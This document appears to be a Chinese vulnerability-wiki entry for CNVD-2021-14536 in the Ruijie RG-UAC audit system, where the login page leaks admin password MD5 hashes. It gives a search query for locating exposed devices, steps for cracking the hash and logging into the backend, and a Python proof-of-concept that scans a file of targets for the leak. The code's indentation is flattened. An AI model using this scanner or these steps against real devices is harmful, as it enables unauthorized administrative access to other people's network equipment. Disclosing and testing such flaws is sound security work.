




锐捷 RG-UAC 账号密码信息泄露 CNVD-2021-14536¶
漏洞描述¶
锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台
漏洞影响¶
锐捷RG-UAC统一上网行为管理审计系统
网络测绘¶
title="RG-UAC登录页面"
漏洞复现¶
来到登录页面
按F12查看源码,可以发现账号和密码的md5形式

解密md5得到密码后即可登录系统


漏洞POC¶
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mFile >>> ip.txt \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
else:
print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
except Exception as e:
print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
def Scan(file_name):
with open(file_name, "r", encoding='utf8') as scan_url:
for url in scan_url:
if url[:4] != "http":
url = "http://" + url
url = url.strip('\n')
try:
POC_1(url)
except Exception as e:
print("\033[31m[x] 请求报错 \033[0m".format(e))
continue
if __name__ == '__main__':
title()
file_name = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
Scan(file_name)
